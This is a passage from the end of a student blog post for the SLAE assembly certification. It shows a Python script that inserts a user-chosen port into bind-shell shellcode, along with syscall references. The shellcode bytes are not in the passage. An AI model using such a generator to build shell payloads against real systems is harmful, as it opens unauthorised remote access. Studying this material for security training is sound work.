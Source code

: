```python
	exit
else:

	try:

		portNumber = sys.argv[1]
		portNumber = int(portNumber)
		if portNumber > 65535 or portNumber < 1:
			print "Please stay in the port range"
			exit()
		portNumber = socket.htons(portNumber)
		portNumber = hex(portNumber)

		firstPortNum = portNumber[2:4]
		secondPortNum = portNumber[4:6]

		firstPortNum = str(firstPortNum)
		firstPortNum = "\\x" + firstPortNum

		secondPortNum = str(secondPortNum)
		secondPortNum = "\\x" + secondPortNum

		combined = secondPortNum + firstPortNum

		shell = shell1 + combined + shell2

	
		print shell

	except:
	
		print "The program has failed, Please try again." 

```
And that's a wrap!

Thank you very much for sticking around!


## References

- [ ] sctest - <https://www.aldeid.com/wiki/Libemu/sctest>
- [ ] sys_dup2 - <https://man7.org/linux/man-pages/man2/dup2.2.html>
- [ ] listen syscall - <https://man7.org/linux/man-pages/man2/listen.2.html>
- [ ] accept syscall - <https://man7.org/linux/man-pages/man2/accept.2.html>
- [ ] socket syscall - <https://man7.org/linux/man-pages/man2/socket.2.html>
- [ ] bind syscall - <https://man7.org/linux/man-pages/man2/bind.2.html>


## Wrap-Up
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification

<https://www.pentesteracademy.com/course?id=3>

Student ID: SLAE - 1543

All the source code which i have used throughout the assignment is available here:
<https://github.com/NagliNagli/SLAE/tree/master/Bind_Shell>

Cheers,
Gal.
